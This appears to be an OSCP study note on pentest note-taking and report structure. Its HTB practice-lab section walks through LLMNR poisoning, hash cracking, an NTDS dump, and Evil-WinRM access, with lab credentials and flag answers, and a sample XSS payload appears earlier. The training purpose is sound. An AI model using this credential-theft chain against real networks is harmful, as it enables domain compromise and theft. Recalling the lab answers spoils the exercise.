


# Module 5: Report Writing for Penetration Testers

## Tags
#OSCP #Module5 #ReportWriting #NoteTaking #Methodology #Documentation #Obsidian #CherryTree #Screenshots #ExecutiveSummary #TechnicalFindings

---

## **Why This Module Matters**

This module isn't about hacking technique, it's about what happens *after* you hack something. If you can pop every box in the exam but can't write a note or a report that proves it, you don't pass. This is the "boring but mandatory" module, and it's worth taking seriously because report writing is genuinely graded in the actual OSCP exam.

**This is the methodology layer every other note in this vault already runs on**, not just theory read once and forgotten. The Application/URL/Request-Type/Issue-Detail/PoC note structure from 5.1.3 is exactly the shape every box writeup in this vault follows (see [[1. clamAV|clamAV]] for a full worked example), and the screenshot discipline from 5.1.5/5.1.6 is why every technique across [[09. Common Web Application Attacks|Common Web Application Attacks]], [[12. Client-Side Attacks|Client-Side Attacks]], and the rest carries a `![[Pasted image ...]]` at nearly every meaningful step.

Two learning units:
1. **Understanding Note-Taking**, how to record what you did *while* you're doing it.
2. **Writing Effective Technical Reports**, how to turn those notes into something a client (or exam grader) can act on.

---

## 5.1. Understanding Note-Taking

### **5.1.1. What Do We Actually Deliver to a Client?**

A pentest is messy in real life. You can't script it in advance because you don't know exactly what you'll find until you're actually in there. So instead of writing the report *before* the test (like a template), you take detailed notes *as you go*, then build the report from those notes afterward.

**Why bother taking such detailed notes?**
- So you (or someone else) can **repeat the test** later to prove an issue is real.
- So you can **repeat the test after a fix** to confirm the issue is actually gone.
- So if something breaks on the client's system during testing, everyone can figure out whether *your* testing caused it.

**Rules of Engagement (RoE)** matter here too, this is the agreement about what you're allowed to do (e.g. "no DoS attacks," "no social engineering"). In red team exercises, someone is sometimes assigned as a "referee" just to make sure everyone sticks to the RoE.

**Assessment taxonomy.** Before any of this starts, both sides need to agree on *what kind* of engagement this even is, since it changes the RoE, the depth of the notes, and what "done" looks like:

| Type | Automation | Exploitation? | Goal |
|------|-----------|---------------|------|
| **Vulnerability Assessment** | Mostly automated | No | Identify and rate vulnerabilities |
| **Penetration Test** | Manual + tools | Yes | Demonstrate exploitability + business impact |
| **Red Team Assessment** | Manual, stealthy | Yes | Simulate APT, test people + process + technology together |
| **Bug Bounty** | Manual | Scoped | Find specific vuln classes for a reward |

**Knowledge levels** are the second axis, independent of assessment type, how much the tester is told going in:

| Level | What the tester knows |
|-------|----------------------|
| **Black Box** | Company name + network connection only. No credentials, no architecture info. |
| **Gray Box** | Some info: network ranges, low-priv user accounts, architecture overview. Most realistic. |
| **White Box** | Full: source code, admin creds, architecture diagrams, network maps. Thoroughest coverage. |

> 🔍 **Worth remembering generally:** most real-world external and internal penetration tests are gray box in practice. Black box is the most realistic from an adversary perspective but the least efficient for the client's budget, since a lot of time goes into recon an attacker would happily spend but a client is usually paying for. White box finds the most vulnerabilities but doesn't test detection/response, since the defenders know a test is happening and roughly where.

#### Tags: #Deliverables #RulesOfEngagement #RoE #Scope #AssessmentTypes #BlackBox #GrayBox #WhiteBox #VulnerabilityAssessment

---

### **5.1.2. Why Your Notes Need to Be Portable**

"Portable" notes means notes someone *else* on your team could pick up and understand, not just notes that make sense to you alone.

Why this matters:
- If you get sick or pulled off an engagement, someone else needs to be able to continue from your notes.
- On a team, everyone needs to be able to understand everyone else's notes.
- Clear notes are also just faster to turn into a report later, less time spent trying to remember what you meant.

#### Tags: #NotePortability #TeamWork #Documentation

---

### **5.1.3. How to Structure Your Notes**

There's no single "correct" way to take notes, but here's the core principle: **write down exactly what you did, not a vague summary of what you think you did.**

Practical rules:
- Record **every command typed**, every code change, every GUI click, enough that you (or someone else) could reproduce it exactly.
- If reading your notes later doesn't help you remember *exactly* what happened, they've failed their job.
- Structure top-down: start broad (what are we testing?) and drill down into detail (exact payload used).


*The top-down principle from this section, visualized: each field narrows the scope until you hit the one thing that actually has to be exact, the PoC payload.*

**Example note structure for a web vulnerability:**
- **Application Name**, useful when testing multiple apps, also gives you a natural folder structure.
- **URL**, the exact URL where the vulnerability lives.
- **Request Type**, GET/POST/etc, and any manual tampering you did to the request.
- **Issue Detail**, a short explanation of the vulnerability (link a CVE if one exists, describe the impact, DoS, RCE, privesc, etc).
- **Proof of Concept (PoC) Payload**, the exact code/command that triggers the issue. **This is the most important part**, it's what lets anyone reproduce your finding.

**Worked example, testing for XSS:**
```
Testing for Cross-Site Scripting

Testing Target: 192.168.1.52
Application:    XSSBlog
Date Started:   31 March 2022

1.  Navigated to the application
    http://192.168.1.52/XSSBlog.html
    Result: Blog page displayed as expected

2.  Entered our standard XSS test data:
    You will rejoice to hear that no disaster has accompanied the
    commencement of an enterprise which you have regarded with such
    evil forebodings.<script>alert("Your computer is infected!");</script>
    I arrived here yesterday, and my first task is to assure my dear
    sister of my welfare and increasing confidence in the success of
    my undertaking.

3.  Clicked Submit to post the blog entry.
    Result: Blog entry appeared to save correctly.

4.  Navigated to read the blog post
    http://192.168.1.52/XSSRead.php
    Result: The blog started to display and then the expected alert popped up.

5.  Test indicated the site is vulnerable to XSS.

PoC payload: <script>alert('Your computer is infected!')</script>
```

> 📸 Screenshot: this is exactly the kind of moment worth capturing for real, the alert box actually popping up on the page. A screenshot here does the job this whole wall of text is trying to do, in one image.

Notice: **these notes are not the report itself**, they're the raw material you'll build the report from later.

**What every finding needs captured, at the moment of discovery, not reconstructed later:**
- **Timestamp** of when you ran the command.
- **Exact command** run (copy/paste, not paraphrased).
- **Full output** (screenshot AND text, both, not one or the other).
- **Target IP/hostname** the command ran against.
- **Your IP**, especially if the target logs inbound connections, you'll want to be able to say "yes, that was us."
- **What it means**, one sentence on why this matters, don't make future-you guess.

> 🔧 **Technique:** without these six things logged in the moment, writing the report later means either memory reconstruction (inaccurate, you WILL misremember a flag or a parameter) or re-running the whole test (which may not even reproduce the same result, targets change). Capture it once, correctly, the first time.

#### Tags: #NoteStructure #XSS #ProofOfConcept #PoC #TopDownApproach #FindingCapture

---

### **5.1.4. Choosing a Note-Taking Tool**

What to look for in a tool:
- **Screenshots**: can you insert them inline easily?
- **Code blocks**: properly formatted, ideally with syntax highlighting.
- **Portability**: cross-OS, easy to move to another machine.
- **Directory structure**: useful on multi-target engagements, bonus if the tool manages this for you automatically.

**Three tools the module compares, plus a modern fourth worth knowing about:**

| Tool | Notes |
|---|---|
| **Sublime Text** | Great syntax highlighting for code blocks, but only one language per file, and no inline screenshots. |
| **CherryTree** | Comes standard on Kali. Stores notes in a SQLite DB, tree structure ("nodes"/"subnodes"), exports to HTML/PDF/plain text. |
| **Obsidian** | Markdown-based. Vault = a folder on disk (which is exactly what we're using for this whole OSCP note vault). Supports live markdown preview, inline images, code blocks, plugins, and can export straight to PDF. |
| **[SysReptor](https://github.com/Syslifters/sysreptor)** | Not just note-taking, a full open-source pentest *reporting* platform. Markdown-based content with drag-and-drop evidence, severity scoring, one-click Markdown → PDF via customizable HTML/CSS templates, and direct integration with Burp/Nessus/Nmap/OpenVAS/ZAP output. Free self-hosted, or a hosted cloud version. |
| **WriteHat** | Another open-source reporting platform, Docker-deployed, web-based finding database with Markdown support and PDF export. Comparable in spirit to SysReptor, we standardise on SysReptor for actual OSCP reports (see below), but WriteHat is worth recognising if a client engagement's tooling already uses it. |

**Tmux** deserves a mention too, not a note-taking tool exactly, but the session-logging layer underneath one. It's a terminal multiplexer that keeps sessions alive across disconnections and splits your terminal into panes, run the attack in one pane, keep notes open in another, right next to each other:

```bash
# Start a new named session
tmux new -s pentest

# Key bindings (Ctrl+B is the prefix):
# Ctrl+B + %           -> split pane vertically (left/right)
# Ctrl+B + "           -> split pane horizontally (top/bottom)
# Ctrl+B + arrow key   -> move between panes
# Ctrl+B + z           -> toggle zoom on current pane
# Ctrl+B + d           -> detach session (stays running in background)

# Re-attach to a named session later
tmux attach -t pentest
```

> 📸 Screenshot: a Tmux session with a vertical split, command output on the left, notes on the right, this is the actual working layout worth screenshotting once and reusing as your standard setup.

Getting Obsidian running via AppImage (worth knowing if you ever need to on a fresh box):
```bash
wget https://github.com/obsidianmd/obsidian-releases/releases/download/v0.14.2/Obsidian-0.14.2.AppImage
chmod +x Obsidian-0.14.2.AppImage
./Obsidian-0.14.2.AppImage
```

> 📸 Screenshot: the original module includes real screenshots of CherryTree's tree-structured notes (Figure 3) and Obsidian's welcome screen, live markdown editing, and live preview (Figures 4-6). Worth grabbing your own from the OffSec module page directly, since this vault is itself the Obsidian setup those figures are showing.

> 🎥 **Video:** [Effective Notes for OSCP, CTFs and Pentest with Obsidian (2025)](https://www.youtube.com/watch?v=4t1MvfNK8Wc), found via search, title/topic match confirmed but full content not verified (YouTube pages don't fetch cleanly for automated review, same limitation as ippsec.rocks elsewhere in this vault). Watch it yourself before treating it as a settled reference, if it's good, this is the natural spot for it since it's specifically about the exact Obsidian-for-OSCP setup this vault already uses. Two other candidates turned up but weren't checked at all: "How HACKERS Take Notes with Obsidian" and "OSCP Obsidian notes setup", both on YouTube.

**SysReptor's specific OSCP relevance:** a companion project, [Syslifters/OffSec-Reporting](https://github.com/Syslifters/OffSec-Reporting), ships ready-made report templates for OSCP/OSCP+/OSWP/OSEP and the rest of the OffSec certification line, built to mirror OffSec's own official report structure, explicitly **"with kind permission by OffSec."** Worth stating precisely rather than overclaiming here: that's OffSec sanctioning the *template structure*, not OffSec officially endorsing SysReptor itself as "the" approved tool. Still a genuinely strong signal though, and a good option if the note-taking-tool-to-final-report handoff (5.1 into 5.2) is the part that feels clunky with a plain markdown vault.

> ⚡ **Modern tool:** [[SysReptor]] is the note-to-report handoff specifically, one-click Markdown → PDF plus the OffSec-sanctioned templates above, once the manual note-taking and report-structure skills from this module are actually understood.

There's no "perfect" tool, pick what fits the engagement and your own workflow.

#### Tags: #NoteTakingTools #Sublime #CherryTree #Obsidian #SysReptor #WriteHat #Tmux #Markdown #ReportingPlatform

---

### **5.1.5. Taking Good Screenshots**

A screenshot should do the job of a thousand words, but only if it's a *good* screenshot. A bad one buries the important part in noise.

**A good screenshot:**
- Shows **only one concept** at a time.
- Is **legible** (no squinting/zooming required).
- Has a **visual indication it's specific to the client** (e.g. their URL, branding).
- Contains the actual material being described (e.g. the XSS alert box popping up).
- Is properly framed, the important thing isn't shoved off to the side.
- Has a short caption (aim for **8 to 10 words max**), the caption just labels the image, extra context goes in surrounding text, not the caption.

**A bad screenshot:**
- Illegible.
- Generic (doesn't show it's this specific client/target).
- Cluttered with irrelevant info.
- Badly framed.

> 📸 Screenshot: the original module's side-by-side Figure 7 (Good Screenshot) and Figure 8 (Bad Screenshot) are the actual visual anchor for this whole section, a real "here's what wrong framing/clutter looks like next to what right looks like" pair is worth more than the bullet lists above. Grab both from the OffSec module page.

**Rule of thumb:** always support a screenshot with text, don't assume the reader (especially a non-technical one) will understand what an alert box or terminal output actually *means* just by looking at it.

#### Tags: #Screenshots #ReportEvidence #GoodScreenshotVsBad

---

### **5.1.6. Tools for Taking Screenshots**

| OS | Full Screen | Region Select |
|---|---|---|
| Windows | `PrintScreen` | `Win + Shift + S` (Snipping Tool) |
| macOS | `Cmd+Shift+3` | `Cmd+Shift+4` or `Cmd+Shift+5` |
| Linux | `PrintScreen` (saves to `~/Pictures`) | `Shift + PrintScreen` (area select) |

**Flameshot** is worth calling out specifically, it's OS-agnostic, has a CLI and GUI, and lets you annotate (highlight, pixelate, add text) right after capture. Great for pentest screenshots where you want to circle the important bit before it goes in the report.

> 📸 Screenshot: a Flameshot capture with an annotation on it, a nice concrete example of "circle the important bit" in practice.

#### Tags: #Flameshot #Screenshots #ScreenshotTools

---

### **5.1. Lab Questions (from the module)**

**Lab status: ✅ Completed** (all 4 pure-recall):

| Question | Answer |
|---|---|
| A penetration tester and client should agree on what before the engagement starts? | **Scope** |
| Two words ending in "cise" that describe good note structure? | **Concise and precise** |
| Besides app name, URL, issue detail, and PoC payload, what else should notes include? | **Request type** |
| How many concepts should a single screenshot show? | **1** |

#### Tags: #Lab #Quiz #Module5

---

## 5.2. Writing Effective Technical Penetration Testing Reports

### **5.2.1. What's the Report Actually For?**

The report is (usually) **the only deliverable that matters to the client**, not the hacking itself. Finding 20 vulnerabilities is worthless to the business if you can't clearly explain them and how to fix them.

Two things to nail:
1. **The purpose** of the report.
2. **How to communicate** to your actual audience.

**If you find nothing:** don't over-explain your failed attempts in detail, a simple "no vulnerabilities found" is usually enough. Piling on technical noise about things that didn't work can drown out the real findings elsewhere in the report.

**Context matters more than raw severity.** The same technical bug can deserve very different priority depending on the client:
- A **hospital** with an unpatched medical device might genuinely need to keep it running 24/7, the fix might be "isolate it on its own subnet" rather than "patch immediately."
- A **bank** with the same unpatched device is a much bigger deal, that's a foothold into a financial network, so it likely needs to be a **critical** finding.

Similarly: cleartext HTTP login on the public internet is very bad. The exact same thing on an internal-only network is still bad, but lower risk, since there are more hoops to jump through to exploit it.

> 🔍 **Worth remembering generally:** the same CVSS score can mean two completely different priorities depending on who owns the box. Don't grade severity in a vacuum, ask what this specific system means to this specific client before assigning a risk rating.

**Bottom line:** report useful, accurate, actionable information, without injecting your own bias about how "bad" something *feels*.

#### Tags: #ReportPurpose #ClientContext #RiskVsSeverity

---

### **5.2.2. Write for Your Actual Audience(s)**

Most reports have (at least) two audiences:
1. **Management / executives**, need the big picture and business impact, not deep technical detail.
2. **Technical staff**, need enough detail to actually understand and fix the issues, plus prevention advice for the future.

Solve this by **splitting the report into sections** pitched at each audience (Executive Summary for management, Technical Findings for the engineers).

**The full document, front to back:**
```
1. Cover Page
2. Table of Contents
3. Executive Summary     <- non-technical, for management/board
4. Scope and Methodology <- what was tested and how
5. Findings              <- the meat, technical details for remediation teams
6. Appendices            <- raw tool output, scope lists, evidence
```
Items 1-2 are boilerplate, the mermaid diagram below picks up from item 3 onward, since that's where the actual writing judgment starts.

#### Tags: #Audience #ReportStructure

---


*The report's full shape, top to bottom, before diving into each section individually. Note the audience shift partway through, non-technical up top, technical detail from the Technical Summary onward.*

### **5.2.3. The Executive Summary**

This is the **first section** of the report, written for senior management to grasp scope and outcome quickly, and to greenlight remediation work.

**Rules for this section specifically, since the audience isn't technical:**
- **Plain language.** No acronyms or technical jargon without a definition.
- **Business impact language**, not technical mechanism language. "An attacker could steal customer data," not "the RCE allows arbitrary code execution." Management funds fixes based on business risk, not CVE numbers.
- Summarise the overall risk posture in one paragraph, then list the top 3-5 most critical findings briefly.
- **Do NOT name or recommend specific vendors for remediation.** Recommending a specific product creates actual or perceived bias, clients should evaluate solutions against their own requirements and procurement process. Describe the problem and the required security control, let the client choose the solution.

**Start with the quick facts:**
```
Executive Summary:

- Scope: https://kali.org/login.php
- Timeframe: Jan 3 - 5, 2022
- OWASP/PCI Testing methodology was used
- Social engineering and DoS testing were not in scope
- No testing accounts were given; testing was black box from an external IP address
- All tests were run from 192.168.1.2
```

This block should cover:
- **Scope**, exactly what was (and wasn't) tested. This also protects you: it proves you did what was agreed, and it's realistic about what fits in the time/budget given.
- **Timeframe**, dates, duration, testing hours.
- **Rules of Engagement**, reference the RoE / referee report, note if DoS or social engineering was allowed, note the methodology followed (e.g. OWASP = Open Web Application Security Project, an organisation that publishes open security testing standards; PCI = Payment Card Industry, specifically PCI-DSS, the security standard that governs how companies handle payment card data).
- **Accounts / infrastructure**, any accounts the client gave you, IPs you tested from, and any accounts *you* created (so the client can confirm they were removed).

**Then write the long-form summary**, roughly in three parts:

**1. Describe the engagement:**
```
"The Client hired OffSec to conduct a penetration test of
their kali.org web application in October of 2025. The test was conducted
from a remote IP between the hours of 9 AM and 5 PM, with no users
provided by the Client."
```

**2. Call out what they did well.** This matters, it softens the blow of the bad news and shows respect for the security team you're actually working with day-to-day:
```
"The application had many forms of hardening in place. First, OffSec
was unable to upload malicious files due to the strong filtering
in place. OffSec was also unable to brute force user accounts
because of the robust lockout policy in place. Finally, the strong
password policy made trivial password attacks unlikely to succeed.
This points to a commendable culture of user account protections."
```
> 🔍 **Worth remembering generally:** never say "impossible" in a report. You only tested for a limited time, a flaw might exist that you just didn't find. Absolute claims need absolute evidence you don't actually have. Say "no evidence of X was found during testing" instead, it's accurate and it doesn't expose you if something turns up later.

**3. Discuss the vulnerabilities found, and look for trends:**
```
"However, there were still areas of concern within the application.
OffSec was able to inject arbitrary JavaScript into the browser of
an unwitting victim that would then be run in the context of that
victim. In conjunction with the username enumeration on the login
field, there seems to be a trend of unsanitized user input compounded
by verbose error messages being returned to the user. This can lead
to some impactful issues, such as password or session stealing. It is
recommended that all input and error messages that are returned to the
user be sanitized and made generic to prevent this class of issue from
cropping up."
```
> 🔧 **Technique:** grouping similar bugs together (e.g. XSS + SQLi + unrestricted file upload all point to "input isn't being sanitized anywhere") lets you recommend a **systemic** fix, like developer security training, instead of just patching each bug in isolation. This is the same instinct as the Technical Summary's grouping-by-area, applied one level deeper, at the individual-finding level.

**4. Close it out:**
```
"These vulnerabilities and their remediations are described in more
detail below. Should any questions arise, OffSec is happy
to provide further advice and remediation help."
```

#### Tags: #ExecutiveSummary #ReportWriting #Trends #Hardening

---

### **5.2.4. Testing Environment Considerations**

A short section, usually right after the Executive Summary, documenting anything that affected the test (delays, missing credentials, scope creep, etc). Being transparent here protects you and helps the client run a better engagement next time.

**Three example tones:**

**Positive:**
> "There were no limitations or extenuating circumstances in the engagement. The time allocated was sufficient to thoroughly test the environment."

**Neutral:**
> "There were no credentials allocated to the tester in the first two days of the test. However, the attack surface was much smaller than anticipated. Therefore, this did not have an impact on the overall test. OffSec recommends that communication of credentials occurs immediately before the engagement begins for future contracts."

**Negative:**
> "There was not enough time allocated to this engagement to conduct a thorough review of the application, and the scope became much larger than expected. It is recommended that more time is allocated to future engagements."

#### Tags: #TestingConsiderations #Transparency #Limitations

---

### **5.2.5. Technical Summary**

A list of **all key findings**, grouped by common area, written for a technical reader (e.g. a security architect) to skim and understand at a glance what needs fixing.

**Common grouping categories:**
- User and Privilege Management
- Architecture
- Authorization
- Patch Management
- Integrity and Signatures
- Authentication
- Access Control
- Audit, Log Management and Monitoring
- Traffic and Data Encryption
- Security Misconfigurations

**Example entry (Patch Management):**
```
4. Patch Management

Windows and Ubuntu operating systems that are not up to date were
identified. These are shown to be vulnerable to publicly-available
exploits and could result in malicious execution of code, theft
of sensitive information, or cause denial of services which may
impact the infrastructure. Using outdated applications increases the
possibility of an intruder gaining unauthorized access by exploiting
known vulnerabilities. Patch management ought to be improved and
updates should be applied in conjunction with change management.
```

This section should end with a **risk heat map** based on vulnerability severity, ideally adjusted with input from the client's own risk team, not just raw CVSS scores (CVSS = Common Vulnerability Scoring System, the industry-standard 0-10 scale for rating how severe a vulnerability is, where 0 is no risk and 10 is the worst possible; raw CVSS alone can be misleading without the client's business context layered on top).

#### Tags: #TechnicalSummary #RiskHeatMap #PatchManagement

---

### **5.2.6. Technical Findings and Recommendations**

This is the **meaty, detailed section**, a full technical write-up of every finding plus how to fix it. Even though it's "technical," don't assume the reader is a pentester, explain enough that a competent sysadmin/developer who isn't a security specialist can still follow it.

**Every individual finding write-up needs these six components:**

| Component | Purpose |
|-----------|---------|
| **Title** | Short, descriptive (e.g. "SMB Signing Disabled, NTLM Relay Attack") |
| **Severity** | CVSS score + qualitative label (Critical/High/Medium/Low/Informational) |
| **Description** | What the vulnerability is and why it exists |
| **Proof of Concept** | The exact steps to reproduce, plus screenshots and commands |
| **Business Impact** | What an attacker could do with this, and what it costs the business |
| **Recommendations** | Concrete, actionable remediation steps |

CVSS scoring itself is a formula, not a gut feeling: **CVSS Base = AV** (attack vector) **+ AC** (attack complexity) **+ PR** (privileges required) **+ UI** (user interaction) **+ S** (scope) **+ C/I/A** (confidentiality/integrity/availability impact). Knowing the formula's inputs matters more than memorising the arithmetic, since it tells you exactly which factors to note down at discovery time (does this need user interaction? does it cross a privilege boundary?) so scoring later isn't a guess.

Usually all of this then gets summarised as a table:

| Ref | Risk | Issue Description and Implications | Recommendations |
|---|---|---|---|
| 1 | H | Account, Password, and Privilege Management is inadequate, analysis of 122,624 accounts found 722 set to never expire, 23,142 never logged in, 6 in the domain admin group, 968 using default passwords. | Enforce a strict password policy, force weak-password accounts to change, set accounts to expire automatically, remove unneeded accounts. |
| 2 | H | Information enumerated through an anonymous SMB session, later used to gain unauthorized access (see Appendix E.9). | Restrict TCP 139/445 by role, disable SAM account enumeration via Local Security Policy. |
| 3 | M | Reflected XSS, the login form echoes the username back on failure, allowing malicious JS to run in the victim's browser. Can lead to credential/session theft. | Sanitize all user input, encode all user-controlled output, don't reflect the username in login error messages. |

**How to write each finding:**
1. A sentence or two on **what** the vulnerability is and **why it's dangerous**.
2. Enough **technical detail** to explain how it's exploited, assume less background knowledge, not more.
3. **Evidence** it's actually exploitable (inline if short, in an appendix if long).
4. The **specific instance** found in this system/app, backed by your notes and screenshots, walk the reader through it step-by-step. Screenshots should always come with a short explanation, not stand alone.
5. **Remediation advice** that is specific, concrete, and actually implementable, not vague ("harden the server") or so extreme it'll never get approved ("disable all remote logins" in a remote-work environment).

**Rules for good remediation advice:**
- Avoid broad, generic solutions, drill into specifics for this app/business.
- No purely theoretical fixes, must be practically implementable.
- One fix per recommendation, don't bundle multiple steps into a single blob.

**A concrete bad vs good pair, same underlying finding:**

Bad:
> "An attacker can own your whole entire network cause your DC is way out of date. You should really fix that!"

Why it's bad: vague (which CVE, which DC?), no remediation steps, unprofessional tone that undermines the client's confidence in the report.

Good:
> "Apply the latest cumulative security patches to all Domain Controllers. As of [date], KB5020683 is the most current for Windows Server 2019. Enable Windows Update on a test DC first, validate functionality, then roll out via WSUS/SCCM. Unpatched DCs running Windows Server 2012 R2 are vulnerable to CVE-2022-37967 (Kerberos privilege elevation), which allows domain compromise without user interaction."

Same finding, same severity, but the second version names the exact CVE, gives a specific patch ID, and lays out a safe rollout path. That's the difference between "recommendations" and "advice someone can actually act on Monday morning."

For replication steps, always separate:
- **The affected URL/endpoint**
- **How to trigger the vulnerability**

If the same bug shows up in many places, you don't need to list every single instance, give a few examples, note that others exist, then recommend a **systemic** fix.

#### Tags: #TechnicalFindings #Remediation #FindingsTable #Severity

---

### **5.2.7. Appendices, Further Information, and References**

- **Appendices**, anything too long or detailed to sit inline (huge user lists, long PoC code, expanded write-ups). Rule of thumb: if it would break the flow of the page but is still needed, it goes here.
- **Further Information** *(optional)*, supplementary value-adds for the client (deeper articles on the vuln, relevant standards, alternate exploitation methods). Skip this section if you don't have anything worth adding.
- **References**, only cite authoritative sources, and cite them properly.

**Closing takeaways for this whole module:**
- There's no single "best" note-taking or reporting tool, try a few and settle on what works for you/the client.
- Document as you go, with hundreds/thousands of hosts, users, and steps, you cannot rely on memory.
- Always keep the full range of readers in mind (technical and non-technical) and structure the report so each audience gets what they need.

#### Tags: #Appendices #References #FurtherInformation

---

### **5.2. Lab Questions (from the module)**

**Lab status: ✅ Completed** (all 3 pure-recall):

| Question | Answer |
|---|---|
| Who do we usually write the Penetration Testing Report for? | **All of the above** (Head of Cybersecurity, CIO, SOC Analysts) |
| What section should usually begin a Penetration Testing Report? | **Executive Summary** |
| Missing word: "concrete and _____ implementation" | **Practical** |

#### Tags: #Lab #Quiz #Module5

---

## 5.3. HTB Practice Lab: Completing an In-Progress Pentest

This module has no attack technique of its own to lab against, so the practical exercise (from HTB Academy's Documentation & Reporting module) is different in kind: you're handed a partially-completed pentest, with a previous tester's Obsidian-style notes already containing some credentials, and your job is to *finish the assessment and write it up* using everything from 5.1 and 5.2. It's a genuine worked example of the whole pipeline (find something → capture it properly → chain it further → have the evidence to write the finding), not a separate skill.

**Starting point, from the previous tester's notes:**

| Credential | Source |
|-----------|--------|
| `dhawkins:Bacon1989` | Found in lab notes |
| `Administrator:Welcome123!` | Found in lab notes |
| `asmith:Welcome1` | Found in lab notes |
| `abouldercon:Welcome1` | Found in lab notes |

Internal targets: DC01 = `172.16.5.5`, DEV01 = `172.16.5.200`, FILE01 = `172.16.5.130`.

**The chain, LLMNR poisoning through to a Domain Admin flag:**

```bash
# Step 1: start Responder on the internal interface, listening for LLMNR/NBT-NS broadcasts
sudo responder -I ens224 -wrvf

# Wait for backupagent to authenticate somewhere on the segment -- captures its NTLMv2 hash

# Step 2: crack the captured hash offline
hashcat -w 3 -O -m 5600 "BACKUPAGENT::INLANEFREIGHT:..." /usr/share/wordlists/rockyou.txt
# Result: Recovery7

# Step 3: RDP to the DC as backupagent with the cracked password
xfreerdp /v:172.16.5.5 /u:backupagent /p:Recovery7

# Step 4: read the flag
type C:\Users\Administrator\Desktop\flag.txt
```

**Lab answer (Q1):** `d0c_pwN_r3p0rt_reP3at!`

> 📸 Screenshot: Responder capturing the backupagent hash, Hashcat cracking it to `Recovery7`, then the flag on DC01's Administrator Desktop. Exactly the kind of three-shot sequence 5.1.3's PoC structure asks for, capture → crack → payoff.

**Following the same account further, dumping NTDS for the krbtgt hash:**

🔁 **Similar to:** the same DCSync/NTDS extraction concept used in the AD-focused modules of this vault, same idea (grab the domain's password database wholesale), different entry point (here it's a captured hash and local admin rights, not an explicit DCSync ACE abuse).

```bash
sudo crackmapexec smb 172.16.5.5 -u backupagent -p Recovery7 --ntds
# Dumps all hashes including krbtgt:502:...:16e26ba33e455a8c338142af8d89ffbc:::
```

**Lab answer (Q2):** `16e26ba33e455a8c338142af8d89ffbc` (krbtgt NTLM hash)

**Offline crack for a service account found in the NTDS dump:**

```bash
grep "svc_reporting" /root/.cme/logs/DC01_172.16.5.5_*.ntds
# svc_reporting:7608:...:a6d3701ae426329951cf5214b7531140:::

hashcat -w 3 -O -m 1000 "a6d3701ae426329951cf5214b7531140" /usr/share/wordlists/rockyou.txt
# Result: Reporter1!
```

**Lab answer (Q3):** `Reporter1!`

**Group membership check, to know exactly what to write in the finding:**

```bash
evil-winrm -i 172.16.5.5 -u backupagent -p Recovery7

# Inside Evil-WinRM:
net user svc_reporting
# Shows: Local Group Memberships: *Backup Operators
```

**Lab answer (Q4):** `Backup Operators` (a Backup Operator can read any file on the DC via `SeBackupPrivilege`, including the NTDS.dit itself, which is exactly the finding you'd write up: an over-privileged service account sitting in a group with an effective domain-compromise path)

> 📸 Screenshot: Evil-WinRM session, `net user svc_reporting` output showing the Backup Operators membership, this is the exact evidence screenshot the finding write-up needs per 5.2.6's "specific instance" requirement.

**The reporting angle this lab actually teaches:** notice how each step above has a timestamp-able command, a full output block, and a one-line "what it means", exactly the six-item capture checklist from 5.1.3. Writing the finding afterward is then just: title it "Service Account in Backup Operators Enables Domain Compromise," CVSS-score the privilege escalation path, paste this exact command chain as the PoC, and recommend removing `svc_reporting` from Backup Operators (or rotating to a dedicated backup solution that doesn't need domain-wide file read).

**Reporting tool used in the original HTB lab:** WriteHat, deployed as a Docker container, accessible at the lab's own `https://<lab-IP>:443`. We use [[SysReptor]] for actual OSCP work instead (see 5.1.4), WriteHat is only relevant if you're specifically doing this HTB lab.

#### Tags: #PracticeLab #LLMNR #Responder #Hashcat #NTDS #DCSync #BackupOperators #Module5

---

## 🎯 Related Boxes to Practice

**No box teaches "wrote a good executive summary" directly**, this module's actual practice is applying its note-taking rules (5.1.3's Application/URL/Request-Type/Issue-Detail/PoC structure, the screenshot discipline from 5.1.5/5.1.6) to every other box and module writeup in this vault, which is already the standing convention followed throughout, see the worked example at [[1. clamAV|clamAV]].

That said, for practicing the specific skill of writing a complete finding narrative from scratch: **HTB's retiring boxes with official write-ups** ([[Lame]], [[Beep]], [[Legacy]]) are good references for what a finished narrative looks like, since HTB publishes its own write-up alongside the box once it retires, giving you something to compare your own draft against. None of these have a RUNBOOK writeup in this vault yet.

---

## **Quick Reference Tags for Future Use**
- #NoteTaking #NotePortability #NoteStructure #FindingCapture
- #Obsidian #CherryTree #Sublime #WriteHat #Tmux
- #Screenshots #Flameshot
- #AssessmentTypes #BlackBox #GrayBox #WhiteBox #VulnerabilityAssessment
- #ExecutiveSummary #TechnicalSummary #TechnicalFindings #CVSS
- #Remediation #RiskVsSeverity #Appendices
